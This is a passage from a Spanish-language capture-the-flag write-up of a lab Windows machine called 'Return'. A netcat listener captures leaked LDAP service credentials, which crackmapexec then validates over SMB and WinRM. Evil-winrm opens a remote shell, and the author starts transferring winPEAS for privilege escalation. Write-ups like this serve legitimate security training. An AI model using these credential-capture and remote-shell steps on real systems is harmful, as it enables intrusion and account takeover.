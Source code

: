 Esto es lo que obtenemos, en mi opinión esto puede ser un `usuario` y `contraseña` que se han leakeado

```
# nc -nlvp 389
listening on [any] 389 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.95.241] 64447
0*`%return\svc-printer�
                       1edFg43012!!
```

Vamos a `validar` las `credenciales` por los diferentes servicios que tiene la máquina víctima usando `crackmapexec`

```
# crackmapexec smb 10.129.95.241 -u 'svc-printer' -p '1edFg43012!!'  
SMB         10.129.95.241   445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.129.95.241   445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
```

```
# crackmapexec winrm 10.129.95.241 -u 'svc-printer' -p '1edFg43012!!'   
SMB         10.129.95.241   5985   PRINTER          [*] Windows 10 / Server 2019 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.129.95.241   5985   PRINTER          [*] http://10.129.95.241:5985/wsman
WINRM       10.129.95.241   5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```
## Instrusión

Al parecer nos podemos `conectar` a la `máquina víctima` a través de `winrm`, por lo tanto vamos a hacerlo

```
# evil-winrm -u 'svc-printer' -p '1edFg43012!!' -i 10.129.95.241 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```
## Privilege Escalation

Vamos a transferirnos `winpeas.exe` a la máquina víctima, lo primero es descargarnos el binario en [https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS), desde el mismo directorio donde está el archivo nos creamos un servidor con python por el puerto 80
